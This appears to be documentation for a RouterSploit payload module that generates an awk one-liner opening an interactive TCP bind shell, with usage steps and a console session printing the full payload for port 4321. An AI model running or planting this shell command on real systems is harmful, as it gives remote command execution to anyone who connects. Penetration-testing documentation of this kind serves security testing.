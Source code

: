 ## Description

Module generates payload that creates interactive tcp bind shell by using awk one-liner. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/cmd/awk_bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates awk tcp bind shell payload.

## Scenarios

```
rsf > use payloads/cmd/awk_bind_tcp
rsf (Awk Bind TCP) > set rport 4321
[+] rport => 4321
rsf (Awk Bind TCP) > run
[*] Running module...
[*] Generating payload
awk 'BEGIN{s="/inet/tcp/4321/0/0";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
```
